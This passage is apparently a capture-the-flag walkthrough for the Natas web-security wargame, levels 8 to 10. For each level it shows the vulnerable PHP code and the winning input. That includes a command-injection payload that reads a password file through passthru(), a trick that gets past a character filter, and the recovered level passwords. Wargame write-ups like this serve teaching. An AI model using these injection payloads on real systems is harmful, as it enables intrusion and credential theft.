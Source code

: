 ```php

print decodeSecret($encodedSecret)
?>
oubWYf2kBq
```
Input <i>oubWYf2kBq</i> and got
```
username: natas9
password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl 
```

**[Natas09](http://natas9.natas.labs.overthewire.org)**  
We have source code
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
The code <i>passthru("grep -i $key dictionary.txt");</i> get your  input <i>$key</i> and run command line code  
Try to input
```
; cat /etc/natas_webpass/natas10; --
```
We got
```
username: natas10
password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu 
```

**[Natas10](http://natas10.natas.labs.overthewire.org)**  
We have source code
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
It's same Natas09 but have a filter <i>[;|&]</i>  
Try to input
```
.* /etc/natas_webpass/natas11
```
We got
```
username: natas11
password: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK 
```